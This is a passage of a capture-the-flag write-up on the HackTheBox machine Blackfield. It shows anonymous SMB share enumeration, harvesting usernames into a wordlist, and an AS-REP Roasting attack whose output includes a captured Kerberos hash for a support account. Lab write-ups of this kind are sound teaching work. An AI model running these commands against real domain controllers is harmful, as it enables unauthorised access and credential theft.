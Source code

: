 The open Kerberos and DNS services imply that this box is likely to be a domain controller. Enumeration via `enum4linux` is unsuccessful, but we do have anonymous access to some SMB shares. While the IPC$ share is empty, the profiles$ share seems interesting and is actually filled with folders of what seem to be usernames in a first initial + last name naming format.

```
┌──(root💀kali)-[/home/kali/HackTheBox/Blackfield]
└─# smbmap -H 10.10.10.192 -u 'root' -p ''     
[+] Guest session       IP: 10.10.10.192:445    Name: blackfield.htb                                    
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        forensic                                                NO ACCESS       Forensic / Audit share.
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        profiles$                                               READ ONLY
        SYSVOL                                                  NO ACCESS       Logon server share
        
       
       
┌──(root💀kali)-[/home/kali/HackTheBox/Blackfield]                                                     
└─# smbclient \\\\10.10.10.192\\profiles$ -U ''
Enter WORKGROUP\'s password:                                                                           
Try "help" to get a list of possible commands.                                                         
smb: \> ls                                                                                             
  .                                   D        0  Wed Jun  3 12:47:12 2020
  ..                                  D        0  Wed Jun  3 12:47:12 2020
  AAlleni                             D        0  Wed Jun  3 12:47:11 2020
  //and so on. Theres like 300 more
  
  
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *

```

After doing a recursive download of all the files and directories, it becomes clear that the real interesting thing to note is the actual folders, not their nonexistent contents. They fit the candidate for potential usernames, so we can compile them into a wordlist and then attempt to spray them with weak credentials or use an AS-REP Roasting attack (since Kerberos is running, its worth a shot.). When I ran the recursive download on smbclient, all the folders were placed in the directory I ran smbclient in. This allowed me to just compile a wordlist using `ls > userlist`. With the userlist compiled, let's start with an AS-REP Roast.

```
┌──(root💀kali)-[/home/kali/HackTheBox/Blackfield]                                                     
└─# GetNPUsers.py BLACKFIELD.local/AAlleni -dc-ip 10.10.10.192 -usersfile userlist

[-] User audit2020 doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$support@BLACKFIELD.LOCAL:6c4abb99a36faa761188bf7118998eb1$1e2c1afa5619bcee910235a29447654c66fc1dfeb415562db72a23aec206578c0482e32d03f38e5912f9994c9e88528f7e581b70998dbf1dd349375b352f095679c8be7726320857e77eba96c449868979412296fbec8c9848ced7cff89056e3a3efb8dcd50c1893dc34fe2df84875d4745d8dca718f60cd7353e141c7dc9d51a69cf85a3ee788a35eb4099577f2c026ac3fd6b8127ed78d2d487a9bda31d4fd65b5984fa0116f8c47549713c1421672f70be43383d6d76bc9ddc93760eff85b62dc4e100829241a5e777793dbb502c7f6db7a1c0cada3b71c80f7a6bfe07f78f2cfec5b43fa489f3df7cfd743e64f2bd5b30851
[-] User svc_backup doesn't have UF_DONT_REQUIRE_PREAUTH set
```